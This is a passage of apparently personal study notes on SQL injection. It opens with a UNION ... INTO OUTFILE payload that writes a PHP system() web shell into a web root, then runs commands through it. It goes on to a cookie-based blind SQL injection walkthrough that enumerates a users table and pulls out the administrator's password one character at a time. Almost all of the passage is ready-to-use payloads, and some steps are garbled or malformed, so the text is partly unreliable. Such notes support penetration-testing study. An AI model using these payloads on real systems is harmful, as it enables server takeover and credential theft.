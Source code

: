 Now to execute commands: `http://SERVER_IP:PORT/shell.php?0=id` To access files with shell:

```sql
 cn' union select "",'<?php system("dir ")); ?>', "","","" into outfile '/var/www/html/shell.php'-- -
```

## Blind SQL injection

The sql injection can be in a cookie too.

* To check use examples like the following:

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

We can check the difference in the website.

* To check if table user is present:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

* Check if administrator user exists:

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

* Check length of password

```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Keep increasing to find length of password

* Assume a table called Users with Password and Username as columns. To determine the first letter of the password for `Administrator` user:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

```sql
xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

If this returns true then the first letter is greater than m.

* Then we can check for character `t` but it is false:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

* This returns true so first character is s for sure:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
